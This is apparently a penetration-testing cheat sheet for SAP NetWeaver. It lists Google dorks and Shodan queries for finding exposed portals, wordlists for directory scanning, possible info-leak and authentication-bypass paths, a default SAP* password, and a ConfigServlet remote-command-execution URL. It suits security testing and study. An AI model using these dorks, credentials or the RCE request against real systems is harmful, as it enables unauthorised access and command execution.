

# SAP Netweaver

## Introduction

SAP system consists of a number of fully integrated modules, which covers virtually every aspect of business management.

The product is marketed as a service-oriented architecture for enterprise application integration.

It can be used for custom development and integration with other applications and systems, and is built primarily using the ABAP programming language, but also uses C, C++, and Java.

It can also be extended with, and interoperate with, technologies such as Microsoft .NET, Java EE, and IBM WebSphere.

***

## Discovery

You can use Shodan and Google Dorks to check for files, subdomains, and juicy information if the application is Internet-facing or public:

```
inurl:50000/irj/portal
inurl:IciEventService/IciEventConf
inurl:/wsnavigator/jsps/test.jsp
inurl:/irj/go/km/docs/
https://www.shodan.io/search?query=sap+portal
https://www.shodan.io/search?query=SAP+Netweaver
https://www.shodan.io/search?query=SAP+J2EE+Engine
```


You can also use `gobuster`, `ffuf` and `BurpSuiteIntuder` to scan for files and directory using the following wordlists:


* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/sap.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/sap.txt)
* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/URLs/urls-SAP.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/URLs/urls-SAP.txt)
* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/CMS/SAP.fuzz.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/CMS/SAP.fuzz.txt)
* [https://raw.githubusercontent.com/chudyPB/sap-wordlist/master/sap-ultimate.txt](https://raw.githubusercontent.com/chudyPB/sap-wordlist/master/sap-ultimate.txt)

***

A typical SAP logon screen ([http://SAP:50000/irj/portal](http://sap:50000/irj/portal)) looks like the following:

<figure><figcaption><p>SAP Login Page</p></figcaption></figure>

***

## Potential information goldmine paths

* Try `/irj/go/km/navigation/` for possible `directory listing`\
  or `authentication bypass`
* [http://SAP/sap/public/info](http://sap/sap/public/info) contains some juicy information

***

## Default Credentials

Each SAP instance is divided into clients.\
Each one has a user SAP\*, the application’s equivalent of “root”.\
Upon initial creation, this user SAP\* gets a default password: “060719992”

***

## Known RCE Exploit

Try to use some known exploits (check out Exploit-DB) or attacks like the [SAP ConfigServlet Remote Code Execution](https://www.exploit-db.com/exploits/24963):

```
http://example.com:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=uname -a
```
